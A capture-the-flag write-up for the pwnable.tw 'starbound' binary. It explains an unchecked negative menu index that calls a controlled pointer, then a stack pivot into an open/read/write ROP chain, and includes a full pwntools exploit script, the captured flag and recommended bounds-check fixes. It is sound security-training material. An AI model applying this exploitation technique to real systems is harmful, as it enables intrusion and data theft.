


**Category:** Pwn  
**Binary:** `starbound` (32-bit x86, Partial RELRO, NX, no PIE, no canary)  
**Vulnerability:** An unchecked signed menu index calls a function pointer outside the dispatch table, allowing a controlled BSS pointer to launch a stack-pivoted open/read/write ROP chain.

## Summary

`starbound` dispatches menu choices through a function-pointer table. It parses the player's input with `strtol`, rejects only zero, and then uses every other signed result directly as an array index. A negative index reaches the global player-name buffer, which is writable through the Settings menu.

Writing a stack-pivot gadget into the name buffer and selecting index `-33` redirects execution to that gadget. The current menu input is already stored on the stack, so the pivot skips the dispatch call frame and returns into a ROP chain embedded after the numeric prefix. Because the binary is non-PIE, the chain can call its fixed `read`, `open`, and `write` PLT entries without leaking libc.


## Binary Protections

| Protection | Status | Effect |
|---|---|---|
| RELRO | Partial | GOT remains writable, although this exploit does not need to overwrite it |
| Stack canary | Absent | No stack-smash detection |
| NX | Enabled | Use ROP instead of injected shellcode |
| PIE | Absent | PLT entries, gadgets, and BSS addresses are fixed |
| FORTIFY | Enabled | Does not protect the unchecked indirect-call index |

## Vulnerability

The main loop reads up to 256 bytes into a stack buffer, converts the beginning to a signed integer, and dispatches through a table at `0x08058154`:

```c
char input[256];

while (1) {
    alarm(60);
    current_menu();

    if (readn(input, 0x100) == 0)
        break;

    long choice = strtol(input, NULL, 10);
    if (choice == 0)
        break;

    dispatch[choice]();             // no lower or upper bound check
}
```

The indirect call is visible directly in the disassembly:

```asm
0804a651  mov    DWORD PTR [esp], ebx
0804a654  call   strtol@plt
0804a659  test   eax, eax
0804a65b  je     0x804a666
0804a65d  call   DWORD PTR [eax*4 + 0x8058154]
```

Only zero is rejected. Negative values and values above the valid menu range are accepted.

### Reaching the player-name buffer

The Settings → Name handler writes attacker-controlled bytes to the global buffer at `0x080580d0`. The required dispatch index is:

```text
index = (target - table_base) / sizeof(pointer)
      = (0x080580d0 - 0x08058154) / 4
      = -33
```

Therefore, selecting `-33` executes:

```c
((void (*)(void)) *(uint32_t *)0x080580d0)();
```

The name setter also replaces the final received byte with a NUL. Sending four pointer bytes followed by one padding byte preserves the complete pointer:

<style>
.sb-tbl { border-collapse: collapse; width: 100%; font-family: monospace; font-size: 0.86em; margin: 1em 0; }
.sb-tbl th { background: #2563eb; color: #fff; padding: 6px 10px; text-align: left; border: 1px solid #444; }
.sb-tbl td { padding: 6px 10px; border: 1px solid #444; }
.sb-safe { background: rgba(34,197,94,0.18); }
.sb-pad { background: rgba(234,179,8,0.22); }
.sb-control { background: rgba(239,68,68,0.22); }
@keyframes sb-write {
  from { opacity: 0.15; background: transparent; }
  60% { background: rgba(239,68,68,0.65); }
  to { opacity: 1; background: rgba(239,68,68,0.28); }
}
.sb-written { animation: sb-write 0.55s ease-out forwards; }
.sb-written:nth-child(1) { animation-delay: 0.0s; }
.sb-written:nth-child(2) { animation-delay: 0.15s; }
.sb-written:nth-child(3) { animation-delay: 0.30s; }
.sb-written:nth-child(4) { animation-delay: 0.45s; }
.sb-written:nth-child(5) { animation-delay: 0.60s; }
</style>

<table class="sb-tbl">
<thead>
<tr><th>Address</th><th>Byte</th><th>Purpose</th></tr>
</thead>
<tbody>
<tr><td>0x080580d0</td><td class="sb-written">0x48</td><td rowspan="4" class="sb-control"><code>p32(0x08048e48)</code>, the controlled indirect-call target</td></tr>
<tr><td>0x080580d1</td><td class="sb-written">0x8e</td></tr>
<tr><td>0x080580d2</td><td class="sb-written">0x04</td></tr>
<tr><td>0x080580d3</td><td class="sb-written">0x08</td></tr>
<tr><td>0x080580d4</td><td class="sb-written">0x00</td><td class="sb-pad">Padding byte replaced by the name handler's terminator</td></tr>
</tbody>
</table>

## Exploit Strategy

### 1. Plant the stack-pivot gadget

The chosen gadget is:

```asm
0x08048e48: add esp, 0x1c
0x08048e4b: ret
```

It is written to the global name buffer:

```python
PIVOT = 0x08048e48

p.sendline(b"6")                 # Settings
p.sendline(b"2")                 # Name
p.send(p32(PIVOT) + b"X")        # X is replaced with NUL
```

### 2. Trigger the OOB call with the ROP chain attached

The exploit sends the menu line as one binary payload:

```python
payload = b"  -33;XX" + chain
p.send(payload)
```

`strtol` skips the leading spaces, parses `-33`, and stops at the semicolon. The entire buffer remains available on the stack. The dispatch instruction then reads the pivot address from the name buffer and calls it.

At entry to the pivot, the stack contains the dispatch return address and the arguments left around the `strtol` call. `add esp, 0x1c` advances into the attacker-controlled menu buffer; `ret` consumes the first ROP address placed after the eight-byte textual prefix.



### 3. Build an open/read/write chain

No libc address is needed. The executable is non-PIE and already imports every function required to read the flag:

```python
POP3    = 0x080491ba
POP2    = 0x080494db
SCRATCH = 0x08058200
OUT     = 0x08058300

chain = flat(
    e.plt["read"],  POP3, 0, SCRATCH, 0x20,
    e.plt["open"],  POP2, SCRATCH, 0,
    e.plt["read"],  POP3, 3, OUT, 0x100,
    e.plt["write"], POP3, 1, OUT, 0x100,
    e.plt["exit"],  0x41414141, 0,
)
```

The calls are:

1. `read(0, SCRATCH, 0x20)` — receive the flag path after the ROP chain has started.
2. `open(SCRATCH, O_RDONLY)` — open the file. With stdin, stdout, and stderr already occupying descriptors 0–2, the returned descriptor is expected to be 3.
3. `read(3, OUT, 0x100)` — copy the flag into writable BSS memory.
4. `write(1, OUT, 0x100)` — print the buffer to stdout.
5. `exit(0)` — terminate cleanly.



The two pop gadgets remove cdecl arguments from the stack after each PLT call:

```asm
0x080491ba: pop esi
0x080491bb: pop edi
0x080491bc: pop ebp
0x080491bd: ret

0x080494db: pop edi
0x080494dc: pop ebp
0x080494dd: ret
```

### 4. Send the path in the second stage

After sending the pivot payload, the exploit supplies the path requested by the first ROP call:

```python
p.send(b"/home/starbound/flag".ljust(0x20, b"\x00"))
```

This split is necessary because the first `read` in the ROP chain consumes fresh input from the socket and writes it to a stable BSS address.

## Full Exploit

```python
from pwn import *

context.arch = "i386"
e = ELF("./starbound", checksec=False)
p = remote("chall.pwnable.tw", 10202)

PIVOT   = 0x08048e48
POP3    = 0x080491ba
POP2    = 0x080494db
SCRATCH = 0x08058200
OUT     = 0x08058300

# Write the pivot address to the player-name buffer.
p.recvuntil(b"> ")
p.sendline(b"6")
p.recvuntil(b"> ")
p.sendline(b"2")
p.recvuntil(b"Enter your name: ")
p.send(p32(PIVOT) + b"X")

# Return to the main menu.
p.recvuntil(b"> ")
p.sendline(b"1")
p.recvuntil(b"> ")

# Pivot from the unchecked dispatch into this ORW chain.
chain = flat(
    e.plt["read"],  POP3, 0, SCRATCH, 0x20,
    e.plt["open"],  POP2, SCRATCH, 0,
    e.plt["read"],  POP3, 3, OUT, 0x100,
    e.plt["write"], POP3, 1, OUT, 0x100,
    e.plt["exit"],  0x41414141, 0,
)

p.send(b"  -33;XX" + chain)
sleep(0.2)
p.send(b"/home/starbound/flag".ljust(0x20, b"\x00"))

print(p.recvall(timeout=5).decode(errors="replace"))
```

```text
FLAG{st4r_st4r_st4r_b0und}
```

## Why the Format-String Leak Is Unnecessary

The Kill command contains a separate format-string bug that can leak libc addresses. A possible route is to write `system` into the name buffer and call it with index `-33`. On the remote service, however, the format-string path exits, and a new connection receives a new ASLR layout. That turns the `system` approach into an address search across independent processes.

The ORW chain is deterministic:

- no libc identification;
- no cross-connection ASLR assumption;
- no brute force;
- no shell command parsing;
- only fixed addresses from the non-PIE executable.

## Fix / Mitigations

The direct fix is to validate the menu choice before indexing:

```c
if (choice < 1 || choice > MAX_MENU_OPTION) {
    puts("Invalid option");
    continue;
}

dispatch[choice]();
```

| Mitigation | Effect |
|---|---|
| Check both lower and upper index bounds | Removes the arbitrary indirect-call primitive |
| Use an explicit `switch` for menu dispatch | Avoids indexing function pointers with untrusted signed data |
| Enable PIE | Randomizes gadgets, PLT entries, and BSS addresses |
| Enable Full RELRO | Hardens other possible GOT-based exploit paths |
| Apply control-flow integrity | Restricts indirect calls to legitimate targets |
